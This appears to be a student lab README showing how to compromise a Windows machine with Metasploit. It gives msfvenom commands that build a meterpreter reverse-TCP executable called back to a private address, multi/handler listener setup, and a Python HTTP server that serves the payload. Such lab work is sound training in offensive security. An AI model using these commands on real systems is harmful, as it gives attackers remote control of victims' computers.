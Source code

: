 # EX 6 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.66.29 LPORT=1234 --platform=windows -f exe>open.exe```

```msfconsole -q```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```use exploit/multi/handler```

```set LHOST 192.168.66.29```

```set LPORT 1234```

```run```

### OUTPUT:

![Screenshot 2025-04-19 140607](https://github.com/user-attachments/assets/ba478ca6-bdbd-43e7-868d-c4a250c49447)


```python3 -m http.server 5678```

### OUTPUT:

![image](https://github.com/user-attachments/assets/77693dcc-0ff9-410d-aaae-d6e90ecfe1c4)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
